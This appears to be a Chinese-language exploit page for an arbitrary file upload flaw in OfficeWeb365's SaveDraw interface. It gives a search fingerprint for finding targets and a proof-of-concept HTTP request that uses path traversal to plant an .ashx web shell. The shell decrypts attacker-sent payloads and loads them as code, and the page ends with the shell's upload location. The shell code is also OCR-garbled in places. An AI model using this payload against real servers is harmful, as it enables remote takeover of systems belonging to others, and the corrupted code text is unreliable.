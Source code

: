 # OfficeWeb365 SaveDraw 任意文件上传漏洞

## 漏洞描述

OfficeWeb365 SaveDraw 接口存在任意文件上传漏洞，攻击者通过漏洞可以在服务器中上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>OfficeWeb365 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"OfficeWeb365"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1665984265863-0522ce25-d026-4e30-9ddc-4f690b84b19d.png)

验证POC

```java
POST /PW/SaveDraw?path=../../Content/img&idx=6.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.434.18 Safari/537.36
Content-Length: 990
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

data:image/png;base64,01s34567890123456789y12345678901234567m91<%@ WebHandler Language="C#" Class="Handler" %>using System;using System.I0;using System.Reflection;using System.Text;using System.Web;using System.WebSessionState;using&System.Security.Cryptography;public class Handler : IHttpHandler,IRequiresSessionState{public void=&ProcessRequest(HttpContext context){try{string key="900bc885d7553375";byteDk=&Encoding.Default.GetBytes(key);context.Session.AddC"sky", key);StreamReader sr=new&StreamReader(contextRequest.InputStream);string line=sr.ReadLine;if(!string.IsNullOrEmpty(line)){byteDc=&Convert.FromBase64String(line);Assembly assembly=&typeof(Environment).Assembly;RijndaelManaged rm=(RijndaelManaged)&assembly.CreateInstance("System.Secur"+"ityCrypto"+"graphy.Rijnda"+"elm anaged");byte[ data=rm.CreateDecryptorCk,k)TransformFinalBlock(c,0, c.Length);Assembly.Load(data)CreateInstance("U").Equals(context);sr.clo se();}}catch {}}public bool IsReusable{get{return false;}}}}---
```

![img](../../../.vuepress/public/img/1665984405457-e01e0fa8-4ddd-4998-ab86-f0d3c6200283.png)

上传地址

```java
/Content/img/UserDraw/drawPW6.ashx
```